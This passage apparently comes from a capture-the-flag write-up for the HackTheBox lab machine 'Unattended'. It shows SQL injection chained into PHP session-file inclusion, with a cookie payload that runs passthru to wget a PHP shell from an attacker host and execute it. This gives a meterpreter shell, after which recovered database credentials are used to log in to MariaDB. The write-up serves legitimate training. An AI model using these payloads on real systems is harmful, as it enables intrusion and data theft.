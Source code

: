 Our php shell will be hosted on a simple HTTP server. We then just need to use our RCE primitive to make a wget call to fetch our shell, and another to make a call to `php` to execute our shell. 

Host the server:
```
$ sudo python -m http.server 443                                                 
Serving HTTP on 0.0.0.0 port 443 (http://0.0.0.0:443/) ...
```

Call wget to fetch the php shell:
```
GET /index.php?id=25%27+UNION+SELECT+%22main%27+UNION+SELECT+%27/var/lib/php/sessions/sess_0eeec3brj9f8bs109u6ssli5p3%27%3b--+%22%3b--+ HTTP/1.1
Host: www.nestedflanders.htb
Cookie: PHPSESSID=0eeec3brj9f8bs109u6ssli5p3; EXEC=<?php passthru('cd /tmp && wget http://10.10.16.12:443/shell.php')?>;
...
```

Call php to execute the shell:
```
GET /index.php?id=25%27+UNION+SELECT+%22main%27+UNION+SELECT+%27/var/lib/php/sessions/sess_0eeec3brj9f8bs109u6ssli5p3%27%3b--+%22%3b--+ HTTP/1.1
Host: www.nestedflanders.htb
Cookie: PHPSESSID=0eeec3brj9f8bs109u6ssli5p3; EXEC=<?php passthru('cd /tmp && php shell.php')?>;
...
```

After a few tries, we now how a meterpreter shell as `www-data`:

![](pictures/shell_init.png)

### Privilege Escalation to User

With our `www-data` shell, we find that there is only one other user on the box: `guly`. Permissions are locked down and there is not much that can be done here. 

After some time enumerating and meeting dead ends, recall the database credentials discovered earlier. Use these and `mysql` to connect to the local database to enumerate data that was to slow to enumerate previously. 
```
www-data@unattended:/tmp$ mysql -h localhost -u nestedflanders -p
mysql -h localhost -u nestedflanders -p
Enter password: 1036913cf7d38d4ea4f79b050f171e9fbf3f5e

Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 33
Server version: 10.1.37-MariaDB-0+deb9u1 Debian 9.6

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]>
```
```
MariaDB [(none)]> use neddy;
use neddy;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

```
